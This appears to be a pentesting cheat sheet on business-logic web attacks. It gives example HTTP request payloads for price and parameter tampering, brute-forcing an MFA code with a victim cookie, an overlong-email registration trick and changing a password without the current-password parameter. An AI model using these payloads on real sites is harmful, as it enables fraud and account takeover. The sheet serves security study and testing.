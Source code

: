 ```yaml
---
title: Business Logic Attack
desc: Business Logic is the part of the program that encodes the real-world business rules that determine how data can be created, stored, and changed. 
tags: [Burp, Business, Logic, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change POST Params to Unexpected Values

```sh
productId=-1
productId=a
productId=1&price=-1000
```

<br />

## 2. Exploit Broken Two-Factor

1. **Brute force a MFA Code**

    ```html
    POST /login HTTP/1.1
    Cookie: verify=victim
    ...

    <!-- Brute force digits code -->
    mfa-code=1111
    ```

<br />

## 3. Loop Back with 2,147,483,647

Coming soon.

<br />

## 4. Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## 5. Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```